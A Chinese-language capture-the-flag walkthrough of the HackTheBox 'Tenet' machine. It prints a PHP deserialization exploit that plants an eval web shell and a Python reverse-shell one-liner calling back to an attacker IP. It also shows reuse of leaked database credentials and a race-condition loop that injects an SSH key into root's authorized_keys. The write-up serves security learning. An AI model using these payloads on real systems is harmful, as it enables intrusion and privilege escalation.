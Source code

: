 # HackTheBox Tenet

  
  
&lt;!--more--&gt;  
```bash  
sudo nmap --min-rate 10000 -A -sS 10.129.210.162  
  
Host is up (0.15s latency).  
Not shown: 998 closed tcp ports (reset)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)  
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)  
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|_http-title: Apache2 Ubuntu Default Page: It works  
Device type: firewall  
Running (JUST GUESSING): Fortinet embedded (94%)  
OS CPE: cpe:/h:fortinet:fortigate_100d  
Aggressive OS guesses: Fortinet FortiGate 100D firewall (94%), Fortinet FortiGate-50B or 310B firewall (89%)  
No exact OS matches for host (test conditions non-ideal).  
Network Distance: 2 hops  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
TRACEROUTE (using port 80/tcp)  
HOP RTT       ADDRESS  
1   367.08 ms 10.10.16.1  
2   367.04 ms 10.129.210.162  
  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 119.63 seconds  
```  
`80`端口存在一个`Apache`默认页面  
利用`dirsearch`扫描，扫描到一个`wordpress`目录  
将域名添加到`host 10.129.210.162 tenet.htb`  
通过网站文章得知  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162151396.png)
存在`sator.php.bak`文件  
```php  
&lt;?php  
  
class DatabaseExport  
{  
	public $user_file = &#39;users.txt&#39;;  
	public $data = &#39;&#39;;  
  
	public function update_db()  
	{  
		echo &#39;[&#43;] Grabbing users from text file &lt;br&gt;&#39;;  
		$this-&gt; data = &#39;Success&#39;;  
	}  
  
  
	public function __destruct()  
	{  
		file_put_contents(__DIR__ . &#39;/&#39; . $this -&gt;user_file, $this-&gt;data);  
		echo &#39;[] Database updated &lt;br&gt;&#39;;  
	//	echo &#39;Gotta get this working properly...&#39;;  
	}  
}  
  
$input = $_GET[&#39;arepo&#39;] ?? &#39;&#39;;  
$databaseupdate = unserialize($input);  
  
$app = new DatabaseExport;  
$app -&gt; update_db();  
  
  
?&gt;  
```  
很明显存在反序列化漏洞  
构造`poc`  
```php  
&lt;?php  
  
class DatabaseExport  
{  
	public $user_file = &#39;users.txt&#39;;  
	public $data = &#39;&#39;;  
  
    public function __construct(){  
        $this-&gt;user_file=&#34;shell.php&#34;;  
        $this-&gt;data=&#34;&lt;?php eval(\$_REQUEST[1]);?&gt;&#34;;  
    }  
}  
$o = new DatabaseExport();  
echo urlencode(serialize($o));  
  
?&gt;  
```  
访问`shell.php`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162157835.png)
利用`python3`反弹`shell`  
`?1=system(&#39;export RHOST=&#34;10.10.16.6&#34;;export RPORT=1234;python3 -c \&#39;import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(&#34;RHOST&#34;),int(os.getenv(&#34;RPORT&#34;))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(&#34;/bin/bash&#34;)\&#39;&#39;);`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162201096.png)
收集数据库账号和密码  
```php  
define( &#39;DB_NAME&#39;, &#39;wordpress&#39; );  
  
/** MySQL database username */  
define( &#39;DB_USER&#39;, &#39;neil&#39; );  
  
/** MySQL database password */  
define( &#39;DB_PASSWORD&#39;, &#39;Opera2112&#39; );  
  
/** MySQL hostname */  
define( &#39;DB_HOST&#39;, &#39;localhost&#39; );  
  
/** Database Charset to use in creating database tables. */  
define( &#39;DB_CHARSET&#39;, &#39;utf8mb4&#39; );  
```  
通过`/etc/passwd`得知存在`neil`账户，利用密码复用  
成功登陆  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162204331.png)
打开`user.txt`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162205224.png)
`sudo -l`查看一下权限  
```  
Matching Defaults entries for neil on tenet:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:  
  
User neil may run the following commands on tenet:  
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh  
```  
可以`root`权限运行`/usr/local/bin/enableSSH.sh`文件  
文件的大概代码逻辑就是向`tmp`目录中写入公钥文件名为`tmp-xxx`接着在写入到`/root/.ssh/authorized_keys`中，  
这里利用条件竞争写入，先本地生成密钥后写入  
```bash  
while true  
do  
echo &#39;ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDBi/2i5Ihf1Lov/drxsMhcW6JC3&#43;I1kYSyBwFLfjxjZU&#43;g31osMQA9OD6FqLbCZY02jNCdrp2lZScRHGIjzLixG&#43;zu5mUdQ4HIEuZ9xU8alaVtgPYocBSgLaB/A/&#43;7B9Tws/30aEw8PXa0Dpiku0j7q84Rx2oIAV41WSZjmEaIhs01Wmai3kDnFzrjiZFA1gaq0TH&#43;QzR0EYllYKbPqQScSQc2WPPlawcp&#43;EHIEMooH&#43;3EAPO9BDcORxMRM8nCfEFXKYPMeSXsb7nfCr1C/ERKTQ85DK0pY9C&#43;URS8jjntti8BInStiBi24mSNHo2HEhPkHc0zGBga5VPiiRXRggZGISjx5rvn3182RujljlJX/lRIKLpKzcpFqXavDChCXfBaEz1qBAMSimfaMTrijzLKTW62x4KsvhZo0BgWowJxjXA1kI/mmOuYrmI3Gglh40M/hexcvLQjvPQvoCYtdqKSRgOwti8XdYHz/gnpEIjDBAW2bH3hUNZPcfag9AZIiek= root@ubuntu&#39;|tee /tmp/ssh-*  
done  
```  
接着运行`/usr/local/bin/enableSSH.sh`文件  
`ssh root@10.129.210.162 -p 22 -i id_rsa`  
成功登陆  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162247477.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/hackthebox-tenet/  

